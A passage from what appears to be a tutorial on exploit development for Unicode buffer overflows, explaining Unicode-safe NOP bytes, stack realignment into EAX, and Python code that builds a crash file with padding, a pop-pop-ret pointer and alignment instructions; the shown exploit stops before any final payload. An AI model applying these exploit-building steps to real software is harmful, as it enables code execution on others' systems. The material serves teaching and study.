 `0x71` – combined with a single trailing null byte produces a `JNO` (jump if overflow) instruction. This will only execute if the overflag flag (OF) is set and as such never activates during this exploit. 

So now we will need to input these values between the instructions that we want to execute. We will use `0x75` between specific instructions and `0x71` as a NOP sled. Now all we need to do is align a register to the start of our payload and we have finished our exploit.

Note: A Unicode NOP sled does not technically need a separate instruction, it could simply be achieved using a combination of 0x75 and 0x90 however I have added in `0x71` to demonstrate a second way of generating a Unicode NOP. 

To do so we will push the value of ESP onto the stack and then pop that value into EAX. Then add and subtract from EAX in order to get the value exactly where we want it.
The final stack alignment instructions should look something like the following:
```
#realigning stack  
buf += b"\x75"                      # Unicode NOP  
buf += b"\x54"                      # Push ESP  
buf += b"\x75"                      # Unicode NOP  
buf += b"\x58"                      # POP EAX  
buf += b"\x75"                      # Unicode NOP  
buf += b"\x05\xFF\x10"              # ADD EAX,  
buf += b"\x75"                      # Unicode NOP  
buf += b"\x2d\xEA\x10"              # SUB EAX,  
buf += b"\x75"                      # Unicode NOP  
```

Which when read into memory will grab our unwanted null bytes and attach them all to the appropriate `0x75` bytes so they do not get in the way of what we are trying to do.

<p align="center"><img src="/images/basics-of-exploit-development-4-unicode-overflows/Stack-alignment.PNG"/></p>    
<p align="center"><i>Stack alignment instructions in memory.</i></p>

As we can see our `0x004800B3` pointer has converted into harmless instructions and our Unicode NOPs have absorbed the unwanted null bytes. We then add `0x1000FF00` to `EAX` and subtract `0x1000EA00` from it in order to leave `EAX` with the value of `0x0019E664` or 1190 bytes past the current location of `EIP`. 

This is where our second Unicode NOP comes into play. We will now fill the space between `EIP` and the address of our final payload with the second `NOP` (`0x71`).  Remember there is a null byte added with each character we inject so we only need half the number of characters as there are bytes between `EIP` and `EAX`.
```
f = open("crash-5.txt", "wb")  
  
buf = b""  
buf += b"\x41" * 1019  
buf += b"\x71\x71"                  # Unicode NOP  
buf += b"\xB3\x48"                  # 0x004800b3 | pop ecx, pop ebp, ret  
  
#realigning stack  
buf += b"\x75"                      # Unicode NOP  
buf += b"\x54"                      # Push ESP  
buf += b"\x75"                      # Unicode NOP  
buf += b"\x58"                      # POP EAX  
buf += b"\x75"                      # Unicode NOP  
buf += b"\x05\xFF\x10"              # ADD EAX,  
buf += b"\x75"                      # Unicode NOP  
buf += b"\x2d\xEA\x10"              # SUB EAX,  
```
